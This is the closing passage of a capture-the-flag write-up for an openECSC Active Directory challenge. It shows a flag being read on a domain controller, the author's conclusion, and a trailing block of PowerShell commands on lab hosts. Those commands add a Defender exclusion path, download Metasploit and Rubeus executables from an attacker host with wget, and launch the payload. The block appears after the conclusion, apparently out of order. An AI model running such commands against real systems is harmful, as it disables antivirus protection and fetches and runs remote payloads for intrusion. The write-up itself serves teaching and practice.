 ```bash
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> cd C:\Users\amministratore\desktop
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> ls


    Directory: C:\Users\amministratore\desktop


Mode                 LastWriteTime         Length Name                                                                                                                                                                                                                                   
----                 -------------         ------ ----                                                                                                                                                                                                                                   
-ar---         5/18/2024   1:45 AM             80 flag.txt                                                                                                                                                                                                                               


[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> cat flag.txt                      
openECSC{even_the_hound_of_hades_could_not_safeguard_the_secret_recipe_81a815b0}
```

## Conclusion

And that's it! We have successfully compromised the entire forest.

My goal for this challenge was to let pentesters showcase their skills and knowledge in a hardened Active Directory environment. My intention was to create a tough challenge without including any red herrings, guessing or brute forcing. I tried to provide enough starting information as possible, like a network diagram and GPOs, and to include only vulnerabilities, attacks, and techniques that could be addressed through enumeration and knowledge obtainable during the CTF. I hope you liked this approach.

I had a lot of fun creating and solving this challenge myself. I hope you enjoyed the challenge and writeup, and that you learned something new.

If you have any questions or feedback, feel free to reach out to me on X/Twitter ([@ly4k_](https://twitter.com/ly4k_)) or Discord.


[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> whoami
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> hostname
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/Rubeus.exe -o rubeus.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\rubeus.exe createnetonly /program:"C:\Windows\Temp\attacker\msf.exe"
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> whoami                                         
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> cd C:\Windows\temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\msf.exe
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> whoami                                         
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> hostname              